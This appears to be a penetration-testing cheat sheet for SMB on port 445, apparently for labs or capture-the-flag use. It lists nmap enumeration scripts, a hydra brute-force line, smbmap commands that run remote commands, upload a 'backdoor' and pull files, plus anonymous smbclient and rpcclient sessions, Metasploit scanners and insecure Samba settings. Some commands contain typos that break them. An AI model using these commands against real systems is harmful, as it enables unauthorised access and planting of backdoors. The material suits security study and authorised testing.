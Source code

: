 # **SMB**

## **Server Message Block 445**

> net use * /delete

```
$ net use z: \\10.4.17.133\c$ smbserver_771 /user:administrator 

> | Username | Password | | administrator | smbserver_771 |
```

--------------------------------------------------------------------

### Some Scans with Nmap

```
$ nmap 0.0.0.0 -sV -p …

$ nmap 0.0.0.0 -sU —top-port 25 —open

$ nmap 0.0.0.0 -sU —top-port 25 —open -sV
```

--------------------------------------------------------------------

### Some scripts for nmap

```
$ nmap 0.0.0.0 -p 445 —script smb-os-discovery

$ nmap -p445 —script smb-protocols 0.0.0.0

$ nmap -p445 —script smb-security-mode 0.0.0.0

$ nmap -p445 —script smb-enum-sessions 0.0.0.0 

$ nmap -p445 —script smb-enum-sessions —script-args username=administrator, password=smbserver_771 0.0.0.0

$ nmap -p445 —script smb-enum-shares 0.0.0.0 

$ nmap -p445 —script smb-vuln-ms17-010 0.0.0.0

$ nmap -p445 —script smb-enum-shares —script-args username=administrator, password=smbserver_771 0.0.0.0

$ nmap -p445 —script smb-enum-users —script-args username=administrator, password=smbserver_771 0.0.0.0

$ nmap -p445 —script smb-enum-stats —script-args username=administrator, password=smbserver_771 0.0.0.0

$ nmap -p445 —script smb-enum-domains —script-args username=administrator, password=smbserver_771 0.0.0.0

$ nmap -p445 —script smb-enum-groups —script-args username=administrator, password=smbserver_771 0.0.0.0

$ nmap -p445 —script smb-enum-services —script-args username=administrator, password=smbserver_771 0.0.0.0

$ nmap -p445 —script smb-enum-shares,smb-ls —script-args username=administrator, password=smbserver_771 0.0.0.0
```

--------------------------------------------------------------------

### BRUTEFORCE

```
$ hydra -l admin -P /usr/shar/wordlists/rockyou.txt 0.0.0.0 smb
```


--------------------------------------------------------------------

### smbmap

```
$ smbmap -u guest -p “” -d . -H 0.0.0.0

$ smbmap -H 0.0.0.0 -u administrator -p smbserver_771 -x ‘ipconfig’

$ smbmap -H 0.0.0.0 -u administrator -p ‘smbserver_771’ -L

$ smbmap -H 0.0.0.0 -u administrator -p ‘smbserver_771’ -r ‘C$’

$ smbmap -H 0.0.0.0 -u administrator -p ‘smbserver_771’ —upload ‘/root/backdoor’ ‘C$\backdoor’

$ smbmap -H 0.0.0.0 -u administrator -p ‘smbserver_771’ —downlaod ‘C$\flag.txt’

$ smbmap -H 0.0.0.0 -u admin -p password1
```

--------------------------------------------------------------------

### smbclient

```
$ smbclient -L 0.0.0.0 -N  (-N = No pass) —> anonymous session allowed?

$ smbclient //0.0.0.0/Public -N
> ls
> cd secret
> get flag

$ smb client -L 0.0.0.0 -U jane
> password

$ smbclient //0.0.0.0/jane -U jane 
> password
```

--------------------------------------------------------------------

### enum4linux

```
$ enum4linux -o 0.0.0.0

$ enum4linux -U 0.0.0.0 (Users)

$ enum4linux -S 0.0.0.0 (Shares)

$ enum4linux -G 0.0.0.0 (Groups)

$ enum4linux -i 0.0.0.0 (Info)

$ enum4linux -r -u “admin” -p “password1”

$ enum4linux -u vagrant -p vagrant -U 0.0.0.0
```

--------------------------------------------------------------------

### rpcclient

```
$ rpcclient -U “” -N 0.0.0.0 (blank user and no pass) —> anonymous session allowed?
> srvinfo
> enumdomusers
> lookupnames admin
> enumdomgroups
```

--------------------------------------------------------------------

### Metasploit Enumeration

```
$ msfconsole

use auxiliary/scanner/smb/smb_version

use auxiliary/scanner/smb/smb2 (see if is vulnerable)

use auxiliary/scanner/smb/smb_enumshares

use /auxiliary/scanner/smb/smb_login
>set passwordlist, user and host

use auxiliary/scanner/smb/pipe_auditor
>set user, pass and host
```

--------------------------------------------------------------------

### nmblookup

```
$ nmblookup -A 0.0.0.0
```


# Configuration:

```shell-session
$ cat /etc/samba/smb.conf | grep -v "#\|\;" 
```

### Samba Configuration Settings

| Setting                          | Description |
|----------------------------------|-------------|
| `[sharename]`                    | The name of the network share. |
| `workgroup = WORKGROUP/DOMAIN`   | Workgroup that will appear when clients query. |
| `path = /path/here/`             | The directory to which user is to be given access. |
| `server string = STRING`         | The string that will show up when a connection is initiated. |
| `unix password sync = yes`       | Synchronize the UNIX password with the SMB password? |
| `usershare allow guests = yes`   | Allow non-authenticated users to access defined share? |
| `map to guest = bad user`        | What to do when a user login request doesn't match a valid UNIX user? |
| `browseable = yes`               | Should this share be shown in the list of available shares? |
| `guest ok = yes`                 | Allow connecting to the service without using a password? |
| `read only = yes`                | Allow users to read files only? |
| `create mask = 0700`             | What permissions need to be set for newly created files? |

### Dangerous Settings:

| Setting                        | Description |
|--------------------------------|-------------|
| `browseable = yes`             | Allow listing available shares in the current share? |
| `read only = no`               | Forbid the creation and modification of files? |
| `writable = yes`               | Allow users to create and modify files? |
| `guest ok = yes`               | Allow connecting to the service without using a password? |
| `enable privileges = yes`      | Honor privileges assigned to specific SID? |
| `create mask = 0777`           | What permissions must be assigned to newly created files? |
| `directory mask = 0777`        | What permissions must be assigned to newly created directories? |
| `logon script = script.sh`     | What script needs to be executed on the user's login? |
| `magic script = script.sh`     | Which script should be executed when the script gets closed? |
| `magic output = script.out`    | Where should the output of the magic script be stored? |





